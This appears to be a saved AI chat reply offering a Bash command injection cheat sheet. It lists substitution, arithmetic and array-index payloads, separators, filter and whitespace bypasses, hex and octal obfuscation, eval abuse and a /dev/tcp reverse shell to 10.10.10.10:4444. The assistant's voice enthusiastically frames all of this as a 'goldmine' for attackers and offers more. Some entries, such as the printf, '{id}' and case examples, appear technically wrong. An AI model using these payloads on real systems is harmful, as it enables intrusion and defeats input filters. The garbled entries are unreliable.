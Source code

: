 [[Eureka]] 


Perfect 👌 this is a **goldmine topic** because in Bash there are _many parsing contexts_ where an attacker can smuggle code execution.  
Here’s a structured **cheat sheet of command injection tricks in Bash** 🧨

---

## 🔹 1. Classic Substitution Tricks

These are the bread and butter:

- **Command substitution**
```sh
$(id)
`id`
```

- **Arithmetic expansion (forces command execution in `$(( ))`)**
```sh
$(( $(id) ))
```

- **Process substitution**
```sh
<(id)
>(id)
```

---

## 🔹 2. Array / Arithmetic Bypasses

These shine when the developer thinks only numbers are allowed.

- **Array index execution**
```sh
a[$(id)]
```

- **Arithmetic context execution**
```sh
$[ $(id) ]
```

---

## 🔹 3. String Injection Tricks

Useful when inside quotes or strings.

- **Concatenation with semicolons**
```sh
1; id
```

- **Newline as command separator**
```sh
1
id
```

- **Backticks inside quotes**
 ```sh
"foo$(id)"
'foo'"$(id)"
```

---

## 🔹 4. Variable Expansion Tricks

Sometimes devs filter only `$()` or `;`, but variables can help.
- **Indirect expansion**

 ```sh
${PATH}
${!USER*}
```

- **Force command execution inside parameter expansion**
```sh
${x:-$(id)}
${x:=$(id)}
 ```
    
---

## 🔹 5. File Redirection & Descriptors

Even if commands are limited, you can pivot to execution.
- **Redirection to TCP**
```sh
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
 ```

- **Here-strings**
```sh
cat <<< $(id)
```


---
## 🔹 6. Built-in Abuse

Even "safe-looking" built-ins can execute.
- **eval** : If you can reach `eval`, it’s game over:
```sh
eval "id"
 ```
- **declare, export, typeset** (support command substitution)
```sh
declare x=$(id)
export y=$(id)
```
- **printf** with `%()` (bash >= 4.2)
```sh
printf '%s\n' $(( $(id) ))
```

---

## 🔹 7. Whitespace / Filter Bypasses

If spaces are blocked:
- **Tab instead of space**
```sh
id<tab>
```

- **Brace expansion**
```sh
{ls,-la}
```

- **IFS abuse**
```sh
IFS=,;`echo,ls`
```

---
## 🔹 8. Logic / Flow Tricks

If inside conditions or loops.
- **Condition bypass**
```sh
if [[ 1 -eq $(id) ]]; then :; fi
```
- **Case injection**
```sh
case $(id) in esac
```

---

## 🔹 9. Encodings & Obfuscation

When filters block obvious payloads.

- **Hex encoded commands**
 ```sh
$'\x69\x64'
```
- **Octal**
```sh
$'\151\144'
```
- **Unicode homoglyphs**  
    Replace `;` or `|` with visually similar symbols in permissive parsers.

---

## 🔹 10. Special Shell Features

- **$() inside $() recursion**
```sh
$(echo $(id))
```
- **Command name expansion**
```sh
 {id}
```

---

💡 **Key idea**: Most injections boil down to finding what context you’re in (string, arithmetic, array, eval, etc.), then choosing the expansion trick that Bash will evaluate **before syntax errors stop it**.

---

👉 Do you want me to build a **table of contexts (string, arithmetic, eval, array, etc.) vs. which tricks execute**? That way you’ll know exactly which payload works where.





---

### ⚠️ Will `a[$(...)]` work in _most_ command injections?

Not really. It depends **heavily on the vulnerable context**:

1. **Arithmetic / array contexts** ✅
    - If the injection point is inside `(( ... ))`, `[[ ... -eq ... ]]`, or something that interprets array indexing, then yes — `a[$(...)]` can bypass numeric-only expectations.
    - Example:
```bash
x=5
if [[ $x -eq a[$(id)] ]]; then echo hi; fi
```
2. **Plain command execution** (e.g. `eval "$code"`, `sh -c "$input"`) 🚫
	- In those cases, you don’t need the `a[...]` trick at all — `$(...)` alone will work fine.
3. **Quoted strings** (e.g. `"value='$code'"`) ⚠️
    - If the vulnerable spot is inside quotes or passed as an argument, then `a[$(...)]` might actually break things, because array syntax won’t be valid there.        
4. **Other shells** (dash, sh, zsh) 🤔
    - This trick is very **bash-specific**.
    - `dash` (used in Debian/Ubuntu for `/bin/sh`) doesn’t support arrays, so `a[...]` would fail before `$(...)` executes.
---

### ✅ When it _shines_

This trick is especially useful when:
- You’re injecting into a **numeric comparison** or arithmetic expression.
- The developer thinks only numbers will be allowed.
- Direct `$(...)` would cause parsing errors.
---

👉 So your intuition is right: it’s a **bypass technique** that works in certain command injection scenarios, but it’s **not universal**.

Would you like me to put together a **cheat sheet of contexts** (arithmetic, strings, eval, arrays) showing when `a[$(...)]` executes and when it fails? That way you’ll see exactly where it generalizes and where it doesn’t.